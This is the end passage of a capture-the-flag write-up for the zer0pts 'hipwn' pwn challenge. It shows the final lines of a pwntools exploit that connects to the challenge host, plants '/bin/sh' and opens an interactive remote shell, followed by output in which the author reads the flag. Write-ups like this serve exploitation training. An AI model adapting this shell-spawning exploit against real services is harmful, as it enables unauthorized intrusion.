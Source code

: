```python
#p = process("./chall")
p = connect("18.179.178.246", 9010)

p.sendlineafter("?\n", payload)
p.sendline(b"/bin/sh\x00") # Sending this to stdin which means the `writable_readable_addr` will have `/bin/sh`

p.interactive()
```

Running the exploit:-

```r
robin@oracle:~/CTFs$ python hipwn_xpl.py 
[*] '/home/robin/CTFs/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 18.179.178.246 on port 9010: Done
[*] Switching to interactive mode
$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
zer0pts{welcome_yokoso_osooseyo_huanying_dobropozhalovat}
$  
```

Yay, we got this. I hope you learned something. Encontered any issues? Contact [@D4mianWayne](https://twitter.com/D4mianWayne)

